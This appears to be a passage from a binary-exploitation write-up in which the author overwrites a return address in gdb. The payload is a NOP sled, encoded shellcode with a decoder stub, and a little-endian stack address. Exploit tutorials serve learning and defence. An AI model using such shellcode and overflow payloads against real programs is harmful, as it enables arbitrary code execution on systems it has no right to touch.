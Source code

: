 let's find the actual pointer and change the previous one.

<img src="img/Pasted image 20240720215715.png" alt="Example Image" width="1080"/>

Let take mid pointer which has `\x90` , change `0xffffd660` to `0xffffd4e0` in little endian format  

```
r `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81\xe0\xd4\xff\xff"`
```


<img src="img/Pasted image 20240720220017.png" alt="Example Image" width="1080"/>
